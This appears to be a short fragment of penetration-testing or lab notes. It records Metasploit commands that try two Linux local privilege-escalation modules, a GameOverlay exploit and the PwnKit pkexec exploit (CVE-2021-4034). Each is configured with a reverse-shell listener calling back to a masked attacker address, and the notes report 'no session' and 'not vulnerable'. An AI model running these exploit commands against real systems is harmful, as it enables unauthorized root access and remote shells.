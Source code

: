 ```sh
use exploit/linux/local/gameoverlay_privesc
set LHOST XX.XXX.XXX.XXX
set LPORT 48433
set ReverseListenerBindAddress 192.168.1.122
set ReverseListenerBindPort 4433
set SESSION 3
check
run
```

no session :(

## pwnkit

```sh
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
# options
set LHOST XX.XXX.XXX.XXX
set LPORT 48445
# advanced
set ReverseListenerBindAddress 192.168.1.122
set ReverseListenerBindPort 4445
check
```

not vulnerable
